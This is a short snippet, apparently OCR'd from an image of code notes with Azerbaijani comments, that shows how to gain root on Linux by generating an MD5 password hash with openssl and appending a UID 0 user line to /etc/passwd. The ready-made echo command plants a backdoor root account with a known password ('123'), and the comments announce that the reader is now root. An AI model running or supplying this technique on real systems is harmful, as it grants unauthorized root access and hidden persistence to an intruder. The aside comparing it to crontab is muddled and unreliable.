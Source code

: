     nano  /etc/passwd  
 ## hissesine elave etsen sen hemise root kimi usere daxil olacaqsan 
      openssl passwd -1  -salt hasan
   ## parol 123
       nano /etc/passwd
       
    hasan:$1$hasan$BUMdh4tI4WdCuFkBJI64T/:0:0:root:/root:/bin/bash
   
 


  
   ## sen artiq ROOT'SAN
# The working mechanism of this is very similar to crontab
echo 'hasan:$1$hasan$BUMdh4tI4WdCuFkBJI64T/:0:0:root:/root:/bin/bash' >> /etc/passwd
